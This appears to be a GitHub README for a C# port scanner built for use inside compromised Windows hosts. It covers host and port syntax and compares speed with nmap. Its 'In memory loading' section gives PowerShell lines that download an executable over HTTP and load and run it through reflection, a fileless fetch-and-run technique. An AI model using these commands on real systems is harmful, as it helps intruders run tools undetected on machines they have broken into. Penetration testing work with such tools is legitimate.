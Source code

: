 # Platinum Portscanner
Platinum portscanner is a C# tool for scanning hosts and ports, it has basic port service detection based on the commonly ran service for a port number(always verify) and basic host OS guesses. It was created to mainly be used once insuide a windows host but still wanting a portscanner with easy syntax, speed and output. 
![image](https://user-images.githubusercontent.com/15575425/159026346-0ba8e068-88ad-4d16-906a-e5a6e761adfd.png)


## usage
Program comes with one main command at the moment with two required options. tcpscan /hosts (values) /ports (values) and an optional /nocheck to skip the host detection phase. Users can load it into memory with the below instructions similar to a powershell script and then perform fast, reliable and useful potscanning in memory of a compromised host. 

### the help menu
![image](https://user-images.githubusercontent.com/15575425/159027184-f9e6b874-6be7-47de-a184-57ae644752cc.png)


/hosts can be done in 3 ways 
- list like 127.0.0.1 127.0.0.2 127.0.0.3 etc.
- range like 127.0.0.1-100 or 127.0.0.100-255
- a cidr notation like 127.0.0.1\24 (atm only supports \24-\32 need to work updating for bigger sized cidr ranges)

/ports can be done in 3 ways
- a list like 80 22 53 8080 etc.
- a range like 1-1000
- also a custom top-50 option from the most common ports ive come across during engagements and labs

/nocheck has the option of yes that disables the host up check and just scans the whole of what the user enters like a whole \24 for the selected ports.

### speed and output ?
Platnium port scanner has so far been just as fast if not faster then nmap for host discovery and port scanning, while as not robust if the goal is just to find open ports and running hosts this program has the speed.
![image](https://user-images.githubusercontent.com/15575425/159028376-6ecfbb7c-642f-4afd-b652-4997853f182e.png)
this is a whole \24 check and 1k port scan. Mine on the left vs a -t5 nmap scan on the right. 

output is also tries to be clean and helpful
![image](https://user-images.githubusercontent.com/15575425/159028542-b1c54f16-b724-4b1a-b3ce-32dd73157185.png)


### In memory loading ?
1. "$data = (New-Object System.Net.WebClient).DownloadData('http://127.0.0.1:8081/Platinum_Portscanner.exe')"
2. "$assem =[System.Reflection.Assembly]::Load($data)"
3. "[Platinum_Portscanner.Program]::Main()"
** NOTE: the double quotes are just for formatting do not include when running command**

## features
- fast scanning time 
- verbose output
- in memory loading 

## disclaimer
I am not responsible for actions taken by users of Platinum portscanner. Platinum portscanner was released solely for educational and ethical purposes.
